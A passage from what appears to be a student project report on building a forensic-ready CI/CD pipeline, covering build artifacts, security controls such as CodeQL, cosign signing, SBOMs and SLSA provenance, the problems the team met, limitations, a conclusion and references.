Each pipeline run produces the following artifacts, retained for 90 days:

| Artifact | Forensic Role |
| --- | --- |
| `npm-audit-report` | CVE status of dependencies at build time |
| `react-app-dist` | The signed, deployable build archive |
| `sbom-files` | Complete package inventory |
| `cosign-bundle` | Sigstore signature + Rekor transparency log entry |
| `build-provenance` | in-toto provenance + cosign signature |
| `forensic-audit-event` | Structured JSON audit record (SIEM-ready) |
| `codeql-sarif-report` | Static analysis findings at build time |

## 6.2 Security Controls Summary

| Control | Implementation |
| --- | --- |
| No hardcoded secrets | `permissions: {}` + OIDC per job |
| Least privilege | Per-job permission grants |
| Vulnerability detection | CodeQL `security-extended` |
| Secret detection | GitHub Secret Scanning + Push Protection |
| Dependency monitoring | Dependabot weekly + npm audit per build |
| Artifact integrity | SHA-256 hash + cosign signature |
| Transparency log | Sigstore Rekor |
| Build provenance | in-toto Statement v0.1 / SLSA v0.2 |
| Audit trail | JSON audit event, 90-day retention |

## 6.3 Difficulties faced

**Repository Access and Collaboration:** The project repository was initially created under a teammate's account without admin access being granted to other members. This blocked pipeline configuration changes that require repository settings access (enabling Secret Scanning, configuring CodeQL, setting up Pages). The workaround was to fork the repository to a personal account with full control for development and testing, then synchronize changes back to the main repository.

**Mapping DevSecOps to Forensics** The conceptual challenge was framing a DevSecOps implementation — which is inherently preventive — as a forensic investigation tool. The key insight that resolved this was recognizing that forensic readiness must be built before an incident occurs: signed artifacts, SBOM manifests, and provenance documents are only useful during an investigation if they were generated at build time. This reframing shaped the entire pipeline design around evidence generation rather than just vulnerability prevention.

**CodeQL Default Setup Conflict:** The repository had GitHub's automatic CodeQL Default Setup enabled in the repository security settings. When our pipeline's Advanced Setup attempted to upload SARIF results, GitHub rejected them with the error: *"CodeQL analyses from advanced configurations cannot be processed when the default setup is enabled."* The resolution was to disable Default Setup in: Settings → Code security → Code scanning, making our pipeline the sole CodeQL analysis source.

**SBOM Duplicate Artifacts:** The anchore/sbom-action automatically uploads its output as a GitHub Actions artifact when artifact-name is specified. Combined with our explicit upload-artifact step, this produced three SBOM artifacts instead of one: sbom-files, sbom_spdx_json, and sbom_cyclonedx_json. The fix was to add upload-artifact: false to both sbom-action steps and rely solely on our explicit upload, resulting in a single clean sbom-files artifact containing both formats.

## 6.4 Limitations

**SLSA generator compatibility:** The official `slsa-framework/slsa-github-generator@v2.1.0` is currently incompatible with GitHub Actions runners due to Node.js version constraints and a missing required input parameter. The provenance document was generated manually following the SLSA v0.2 specification. While forensically equivalent, this implementation does not achieve the strict isolation guarantees of SLSA Level 3 (where provenance must be generated by a platform-controlled process separate from the build).

**Artifact retention:** The 90-day retention window is a limitation of GitHub’s free tier. In a production forensic environment, artifacts would be mirrored to long-term cold storage (e.g. S3 Glacier) with cryptographic integrity verification.

## 6.5 Potential Improvements

- **Container scanning with Trivy** — if the application were containerized, Trivy would scan the Docker image for OS-level CVEs
- **SIEM integration** — the `forensic-audit-event.json` is designed for SIEM ingestion; a production deployment would forward events to Splunk or Elastic via webhook
- **Artifact mirroring** — copy signed artifacts to immutable cloud storage for long-term forensic retention beyond GitHub’s 90-day limit
- **DAST pipeline stage** — add runtime scanning with OWASP ZAP after deployment to a staging environment

---

# 7. Conclusion

This project demonstrates that forensic auditability and DevOps velocity are not mutually exclusive. By integrating security controls directly into the CI/CD pipeline, every build automatically produces a complete chain of evidence — from source code vulnerability detection to cryptographically signed, verifiable artifacts with traceable provenance.

The six-phase pipeline addresses the core forensic challenges identified in the background: attribution is resolved through OIDC-bound signatures and actor-attributed audit logs; integrity verification is achieved through cosign; timeline reconstruction is supported by timestamped, immutable artifacts; and chain of custody is established through in-toto provenance documents.

The demonstration with intentionally vulnerable code confirms that the pipeline correctly detects and documents vulnerabilities without interrupting the artifact generation process — ensuring that even a flawed build leaves a complete forensic trail for post-incident analysis.

The key insight of this project is that **forensic readiness is not a post-incident activity** — it must be built into the delivery pipeline from the start. The cost of doing so, in terms of pipeline complexity and execution time, is modest. The forensic value, in terms of incident response capability, is substantial.

## Executive Summary

This report documents a Project whose objective is to design and implement a forensic-grade Continuous Integration / Continuous Delivery (CI/CD) pipeline: an automated software-delivery system that is not only secure but that produces a complete evidence trail that is suitable for post-incident investigation.

The pipeline implements eight (8) coordinated security controls and creates structured forensic artifacts at every stage starting from a developer's commit through static analysis, dependency auditing, build, software bill of materials generation, cryptographic signing, provenance attestation, and a consolidated forensic audit record.
 This report describes the architecture, the division of work, the forensic rationale behind each design decision, the demonstration scenario and the results

## New skills acquired

This project gave us practical experience in areas that go well beyond typical software development. We learned how to build a security-focused CI/CD pipeline that doesn't just compile and ship code, but also automatically collects evidence at every step - something none of us had done before.
On the technical side, we got hands-on with tools for signing artifacts, generating build provenance, creating software bills of materials, and running static code analysis. More importantly, we learned how these pieces fit together to create a complete picture that would actually be useful during a security investigation.
Working together on a shared codebase also helped us improve how we collaborate as a team. We split responsibilities across pipeline setup, application development, and documentation, which meant we had to stay in sync, especially when a change in one area, like how the app builds its output, would break something another team member was working on.
The biggest takeaway was probably a shift in how we think about security. Instead of treating it as something you deal with after something goes wrong, we started thinking about what evidence you need to have ready before an incident happens and how to make the pipeline collect that evidence automatically on every run.

# Refferences

1. **GitHub Actions Documentation** — official documentation for workflow syntax, jobs, runners, permissions, and CI/CD automation.

    <https://docs.github.com/en/actions>

2. **GitHub Actions OpenID Connect (OIDC)** — official documentation for replacing long-lived cloud credentials with short-lived identity tokens in GitHub Actions workflows.

    <https://docs.github.com/en/actions/concepts/security/openid-connect>

3. **CodeQL Code Scanning Documentation** — official GitHub documentation for static analysis, CodeQL queries, SARIF output, and code scanning alerts.

    <https://docs.github.com/en/code-security/code-scanning/introduction-to-code-scanning/about-code-scanning-with-codeql>

4. **Dependabot Quickstart Guide** — official GitHub documentation for dependency vulnerability alerts, automated update pull requests, and `dependabot.yml` configuration.

    <https://docs.github.com/en/code-security/tutorials/secure-your-dependencies/dependabot-quickstart-guide>

5. **GitHub Secret Scanning Push Protection** — official documentation for blocking hardcoded credentials before they are pushed into repository history.

    <https://docs.github.com/en/code-security/secret-scanning/introduction/about-push-protection>

6. **npm audit Documentation** — official npm documentation for dependency vulnerability auditing and JSON audit reports.

    <https://docs.npmjs.com/cli/v11/commands/npm-audit>

7. **Syft SBOM Generation Documentation** — official Anchore documentation for generating Software Bills of Materials in formats such as SPDX and CycloneDX.

    <https://oss.anchore.com/docs/guides/sbom/>

8. **Sigstore Cosign Keyless Signing Documentation** — official documentation for signing artifacts with OIDC-backed identities, Fulcio certificates, and Rekor transparency logs.

    <https://docs.sigstore.dev/cosign/signing/overview/>
